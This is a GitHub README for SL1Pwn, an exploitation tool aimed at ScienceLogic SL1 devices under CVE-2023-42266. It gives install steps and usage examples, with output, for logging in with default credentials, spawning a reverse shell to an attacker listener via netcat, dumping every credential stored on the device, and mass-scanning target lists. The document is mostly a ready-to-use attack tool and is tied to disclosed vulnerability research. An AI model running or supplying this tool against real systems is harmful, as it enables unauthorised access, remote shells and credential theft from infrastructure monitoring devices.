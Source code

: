 # SL1Pwn - ScienceLogic SL1 Exploitation
<p align="center">
  <img src="https://github.com/3NailsInfoSec/SL1Pwn/assets/131826735/38c24789-7936-4e48-9b04-f864453bdcfa">
</p>

This tool utilizes default credentials to obtain a reverse shell, dump credentials, and login via HTTP and SSH (single or bulk) on ScienceLogic SL1 devices. If default credentials are not correct, you can supply your own.

Recognized as <a href ="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-42266">CVE-2023-42266</a>
## Read:
<a href ="https://www.3nailsinfosec.com/post/using-discord-s-voice-channel-for-c2-operations">Hacking the Heartbeat Monitor of a Data Center - ScienceLogic SL1</a>

## Install:
```
git clone https://github.com/3NailsInfoSec/SL1Pwn.git
cd SL1Pwn
pip3 install -r requirements.txt
```
## Usage:

#### Login - Test login with default creds on port 443:
```
python3 sl1pwn.py -t 1.1.1.1

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
```

#### SSH - Test ssh login with custom creds
```
python3 sl1pwn.py -t 1.1.1.1 -p 22 -user em7admin -pass admin123

[+] Possible SSH success 1.1.1.1:22
```

#### Shell - Pop shell on SL1 device (setup netcat listener first)
```
python3 sl1pwn.py -t 1.1.1.1 -shell -L 2.2.2.2 -P 4444

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[*] Created action with name: kjsKKe
[*] Created schedule successfully: 25
[*] Created automation successfully: 115

[+] Run book executed! Press enter when ready to clean up...

[*] Deleted action[121]: kjsKKe
[*] Deleted schedule[25]: kjsKKe
[*] Deleted automation[115]: kjsKKe

# nc -lvp 4444
Connection received on 1.1.1.1 45352
sh-4.2$
```

#### Dump - Dump all creds stored in SL1
```
python3 sl1pwn.py -t 1.1.1.1 -dump -o target_creds.csv

[*] Dumping 1.1.1.1::22 stored api credentials

[LifeSize: Endpoint SNMP]
[Cisco: CSP SNMP Port 161 Example]
[Cisco: CSP SNMP Port 1610 Exampl]
[Dell EMC: Isilon SNMPv2 Example]
[Cisco SNMPv3 - Example]
[Cisco SNMPv2 - Example]

[*] Saved to target_creds.csv
```

#### Scanning - Scan a combo IP:PORT list from a file
```
python3 sl1pwn.py -scan targets.txt -threads 25

[+] UI Login Success! https://1.1.1.1:443
[+] API Login Success! https://1.1.1.1:443
[+] UI Login Success! https://1.1.1.2:443
[+] API Login Success! https://1.1.1.2:443
```

## Credits
<a href ="https://twitter.com/sm00v">Twitter: @sm00v</a>

<a href ="https://github.com/sm00v">Github: @sm00v</a>
